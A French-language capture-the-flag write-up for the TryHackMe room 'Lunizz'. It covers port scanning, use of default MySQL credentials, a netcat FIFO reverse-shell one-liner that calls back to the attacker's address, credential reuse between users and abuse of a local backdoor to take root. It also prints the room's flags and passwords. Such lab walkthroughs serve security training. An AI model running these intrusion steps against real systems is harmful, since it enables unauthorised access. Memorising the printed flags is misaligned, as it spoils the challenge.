



# Lunizz CTF #

## Task 1 Are you able to solve this challenge? ##  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.109.181 Lunizz.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A lunizz.thm -p- 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-14 22:34 CEST
Nmap scan report for lunizz.thm (10.10.109.181)
Host is up (0.068s latency).
rDNS record for 10.10.109.181: Lunizz.thm
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   MySQL 5.7.33-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.33-0ubuntu0.18.04.1
|   Thread ID: 3
|   Capabilities flags: 65535
|   Some Capabilities: ODBCClient, IgnoreSigpipes, Support41Auth, Speaks41ProtocolOld, LongPassword, SupportsLoadDataLocal, SupportsTransactions, InteractiveClient, LongColumnFlag, FoundRows, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsCompression, Speaks41ProtocolNew, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: !7u\x0D"tWI&;\x15}@2VDB}\x08G
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.33_Auto_Generated_Server_Certificate
| Not valid before: 2021-02-11T23:12:30
|_Not valid after:  2031-02-09T23:12:30
|_ssl-date: TLS randomness does not represent time
4444/tcp open  krb524?
| fingerprint-strings: 
|   GetRequest: 
|     Can you decode this for me?
|     bGV0bWVpbg==
|     Wrong Password
|   NULL: 
|     Can you decode this for me?
|     bGV0bWVpbg==
|   SSLSessionReq: 
|     Can you decode this for me?
|_    cEBzc3dvcmQ=
5000/tcp open  upnp?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, Kerberos, LDAPSearchReq, LPDString, NCP, NULL, SSLSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, afp, ms-sql-s: 
|     OpenSSH 5.1
|_    Unable to load config info from /usr/local/ssl/openssl.cnf
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4444-TCP:V=7.91%I=7%D=10/14%Time=616894F5%P=x86_64-pc-linux-gnu%r(N
SF:ULL,29,"Can\x20you\x20decode\x20this\x20for\x20me\?\nbGV0bWVpbg==\n")%r
SF:(GetRequest,37,"Can\x20you\x20decode\x20this\x20for\x20me\?\nbGV0bWVpbg
SF:==\nWrong\x20Password")%r(SSLSessionReq,29,"Can\x20you\x20decode\x20thi
SF:s\x20for\x20me\?\ncEBzc3dvcmQ=\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5000-TCP:V=7.91%I=7%D=10/14%Time=616894EF%P=x86_64-pc-linux-gnu%r(N
SF:ULL,46,"OpenSSH\x205\.1\nUnable\x20to\x20load\x20config\x20info\x20from
SF:\x20/usr/local/ssl/openssl\.cnf")%r(GenericLines,46,"OpenSSH\x205\.1\nU
SF:nable\x20to\x20load\x20config\x20info\x20from\x20/usr/local/ssl/openssl
SF:\.cnf")%r(DNSVersionBindReqTCP,46,"OpenSSH\x205\.1\nUnable\x20to\x20loa
SF:d\x20config\x20info\x20from\x20/usr/local/ssl/openssl\.cnf")%r(SSLSessi
SF:onReq,46,"OpenSSH\x205\.1\nUnable\x20to\x20load\x20config\x20info\x20fr
SF:om\x20/usr/local/ssl/openssl\.cnf")%r(TerminalServerCookie,46,"OpenSSH\
SF:x205\.1\nUnable\x20to\x20load\x20config\x20info\x20from\x20/usr/local/s
SF:sl/openssl\.cnf")%r(Kerberos,46,"OpenSSH\x205\.1\nUnable\x20to\x20load\
SF:x20config\x20info\x20from\x20/usr/local/ssl/openssl\.cnf")%r(LPDString,
SF:46,"OpenSSH\x205\.1\nUnable\x20to\x20load\x20config\x20info\x20from\x20
SF:/usr/local/ssl/openssl\.cnf")%r(LDAPSearchReq,46,"OpenSSH\x205\.1\nUnab
SF:le\x20to\x20load\x20config\x20info\x20from\x20/usr/local/ssl/openssl\.c
SF:nf")%r(TerminalServer,46,"OpenSSH\x205\.1\nUnable\x20to\x20load\x20conf
SF:ig\x20info\x20from\x20/usr/local/ssl/openssl\.cnf")%r(NCP,46,"OpenSSH\x
SF:205\.1\nUnable\x20to\x20load\x20config\x20info\x20from\x20/usr/local/ss
SF:l/openssl\.cnf")%r(WMSRequest,46,"OpenSSH\x205\.1\nUnable\x20to\x20load
SF:\x20config\x20info\x20from\x20/usr/local/ssl/openssl\.cnf")%r(ms-sql-s,
SF:46,"OpenSSH\x205\.1\nUnable\x20to\x20load\x20config\x20info\x20from\x20
SF:/usr/local/ssl/openssl\.cnf")%r(afp,46,"OpenSSH\x205\.1\nUnable\x20to\x
SF:20load\x20config\x20info\x20from\x20/usr/local/ssl/openssl\.cnf");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/14%OT=80%CT=1%CU=33381%PV=Y%DS=2%DC=T%G=Y%TM=616895
OS:08%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=FE%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3
OS:=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=F4B3%W2=F
OS:4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW
OS:6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   50.39 ms 10.9.0.1
2   32.03 ms Lunizz.thm (10.10.109.181)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.60 seconds
```

D'arpès nmap on a plusieurs service : 
Le service HTTP sur le port 80.    
Le service mysql sur le port 3306.   
Des services inconnus sur les ports 4444 et 5000.    

D'après le titre du site nmap nous dit que c'est la page par défaut d'apache qui est mise.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u lunizz.thm -w /usr/share/dirb/wordlists/common.txt -x txt -q
/.hta                 (Status: 403) [Size: 275]
/.hta.txt             (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/hidden               (Status: 301) [Size: 309] [--> http://lunizz.thm/hidden/]
/index.html           (Status: 200) [Size: 10918]                              
/instructions.txt     (Status: 200) [Size: 339]                                
/server-status        (Status: 403) [Size: 275]                                
/whatever             (Status: 301) [Size: 311] [--> http://lunizz.thm/whatever/]
tim@kali:~/Bureau/tryhackme/write-up$ 

tim@kali:~/Bureau/tryhackme/write-up$ curl http://lunizz.thm/instructions.txt
Made By CTF_SCRIPTS_CAVE (not real)

Thanks for installing our ctf script

#Steps
- Create a mysql user (runcheck:CTF_script_cave_changeme)
- Change necessary lines of config.php file

Done you can start using ctf script

#Notes
please do not use default creds (IT'S DANGEROUS) <<<<<<<<<---------------------------- READ THIS LINE PLEASE


```

Avec gobuster on trouve un fichier instructions.txt   
Dans le fichier instructions.txt on trouve des indentifiants runcheck:CTF_script_cave_changeme  

**What is the default password for mysql**  

Le mot de passe par défaut est : CTF_script_cave_changeme    

**I can't run commands, there must be a mysql column that controls command executer** 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ mysql -u runcheck -pCTF_script_cave_changeme  -h lunizz.thm
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 5.7.33-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| runornot           |
+--------------------+
2 rows in set (0.036 sec)
MySQL [(none)]> use runornot;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [runornot]> show tables;
+--------------------+
| Tables_in_runornot |
+--------------------+
| runcheck           |
+--------------------+
1 row in set (0.033 sec)
MySQL [runornot]> select * from runcheck;
+------+
| run  |
+------+
|    0 |
+------+
1 row in set (0.032 sec)
```

On se connecte sur la base de données.   
On récupère les informations.   

la colonne qui contrôle l'exécution est : run  

**a folder shouldn't be...**  

```bash
MySQL [runornot]> update runcheck set run = 1;
Query OK, 1 row affected (0.047 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

On modifie sur la colonne run la valeure 0 à 1.   

Avec gobuster on remarque le répertoire whatever.   

   

Sur la page whatever on remarque le peut exécuter des commandes.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute le port 1234 pour avoir un shell.  

   
On exécute un reverse shell qui est ici : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.228.66 1234 >/tmp/f   

```
$ cd /
$ ls
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
proct
root
run
sbin
snap
srv
swap.img
sys
tmp
usr
var
vmlinuz
vmlinuz.old

```

Le répertoire qui doit pas être là est : proct  

**hi adam, do you remember our place?**

```bash
cd proct
www-data@lunizz:/proct$ ls
ls
pass
cat bcrypt_encryption.py
import bcrypt
import base64

passw = "wewillROCKYOU".encode('ascii')
b64str = base64.b64encode(passw)
hashAndSalt = bcrypt.hashpw(b64str, bcrypt.gensalt())
print(hashAndSalt)

#hashAndSalt = b'$2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e'
#bcrypt.checkpw()
```

Dans /proct/pass/bcryp_encryption.py on trouve un hash chiffré avec un salt.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat decode.py 
import bcrypt
import base64

salt = b'$2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e'
file = open("./list.txt","r")

for p in file:
    password = p.strip()      
    try:
        bpass = password.encode('ascii')
        passed= str(base64.b64encode(bpass))
        hashAndSalt = bcrypt.hashpw(passed.encode(), bcrypt.gensalt())
        if bcrypt.checkpw(passed.encode(),salt):
            print("GOTIT........>>",p, hashAndSalt)
            break
    except:
        continue
```

Le décodage prend trop de temps, je connais le mot de passe de adam, mais il correspond pas hash.   
Le mot de passe de adam est : bowwow    
 
```bash
su adam
Password: bowwow
cd /home/adam
$ cd Desktop
cd Desktop
$ ls -al
ls -al
total 12
drwxr-xr-x 3 adam adam 4096 Feb 28  2021 .
drwxr-x--- 5 adam adam 4096 Oct 15 19:36 ..
drwxr-xr-x 2 adam adam 4096 Feb 28  2021 .archive
$ cd .archive
cd .archive
$ ls
ls
to_my_best_friend_adam.txt
$ cat to_my_best_friend_adam.txt
cat to_my_best_friend_adam.txt
do you remember our place 
i love there it's soo calming
i will make that lights my password

--

https://www.google.com/maps/@68.5090469,27.481808,3a,75y,313.8h,103.6t/data=!3m6!1e1!3m4!1skJPO1zlKRtMAAAQZLDcQIQ!3e2!7i10000!8i5000

```

Dans le bureau d'adam dans .archive on trouve un fichier qui contient un lien google map.  

    

L'endoit est : Northern Lights   

northernlights est aussi le mot de passe de masson.   

**user.txt**

mot de passe masson est : northernlights   

```bash
$ cat user.txt
cat user.txt
thm{23cd53cbb37a37a74d4425b703d91883}
```

Une foit que l'on est sous l'utilisateur mason on peut lire le flag dans user.txt.  
Le flag est : thm{23cd53cbb37a37a74d4425b703d91883}  

**root.txt**  

```bash
ss -nl | tail
icmp6UNCONN 0      0                                          *%eth0:58                                                   *:*                                   
udp  UNCONN 0      0                                         0.0.0.0:56609                                          0.0.0.0:*                                   
udp  UNCONN 0      0                                   127.0.0.53%lo:53                                             0.0.0.0:*                                   
udp  UNCONN 0      0                               10.10.17.188%eth0:68                                             0.0.0.0:*                                   
tcp  LISTEN 0      80                                        0.0.0.0:3306                                           0.0.0.0:*                                   
tcp  LISTEN 0      128                                     127.0.0.1:8080                                           0.0.0.0:*                                   
tcp  LISTEN 0      128                                 127.0.0.53%lo:53                                             0.0.0.0:*                                   
tcp  LISTEN 0      5                                         0.0.0.0:4444                                           0.0.0.0:*                                   
tcp  LISTEN 0      5                                         0.0.0.0:5000                                           0.0.0.0:*                                   
tcp  LISTEN 0      128                                             *:80                                                   *:*    
```

En listant les ports en écoute on trouve 127.0.0.1:8080, qui est un port http.  

```bash
$ curl 127.0.0.1:8080
curl 127.0.0.1:8080
**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```

On nous dit que l'on peut passer des commandes.  

```bash
$ curl 127.0.0.1:8080 -X POST -d "password=northernlights&cmdtype=passwd"
curl 127.0.0.1:8080 -X POST -d "password=northernlights&cmdtype=passwd"
<br>Password Changed To :northernlights<br>**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd

su root
Password: northernlights
```

On change le mot de passe.   
On se connecte en tant que root.   

```bash
root@lunizz:/# cd root
cd root
root@lunizz:~# ls
ls
index.php  r00t.txt
root@lunizz:~# cat cat r00t.txt
cat cat r00t.txt
cat: cat: No such file or directory
thm{ad23b9c63602960371b50c7a697265db}
```

On lit le fichier r00t.txt dans root et on a le flag.   

Le flag est : thm{ad23b9c63602960371b50c7a697265db}  